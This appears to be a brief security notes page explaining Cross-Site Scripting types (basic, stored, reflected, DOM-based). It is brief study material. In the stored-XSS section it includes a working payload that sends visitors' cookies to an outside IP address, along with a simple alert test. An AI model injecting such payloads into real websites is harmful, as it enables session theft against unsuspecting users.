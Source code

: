 # Cross-Site Scripting (XSS)

[HOME](../index.html) / [Web](./)

## The basics

Injection of scripts to the web.

```
<script>alert(1);</script>
```

## Stored XSS

Most commonly seen in forums and comment area. The injected script will be stored into the server and database.

```html
<html>
    <body>
        <script>
            var r = new XMLHttpRequest();
            r.open("GET", "http://192.168.49.131" + document.cookie);
            r.send();
        </script>
    </body>
</html>
```

## Reflected XSS

Inputs that can be reflected back to the user is highly vulnerable when not properly handled.

\## DOM-Based XSS Focuses on the client side. DOM-based XSS is a type of attack that tries to inject script to the Document Object Model (DOM).
